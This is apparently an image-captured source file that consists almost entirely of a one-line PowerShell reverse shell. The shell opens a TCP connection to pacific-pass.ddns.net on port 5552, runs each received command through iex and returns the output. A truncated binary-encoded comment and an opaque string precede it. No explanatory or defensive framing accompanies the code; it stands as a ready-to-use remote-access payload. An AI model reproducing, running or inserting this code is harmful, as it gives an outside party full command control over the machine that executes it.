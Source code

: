 # 01001000-01100101-01110010-01100101-00101100-00100000-01100001-01110100-00100000-01110100-01101000-0
0H0d@77@8qk2pMqsqA@APT
$client = New-Object System.Net.Sockets.TCPClient("pacific-pass.ddns.net",5552);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
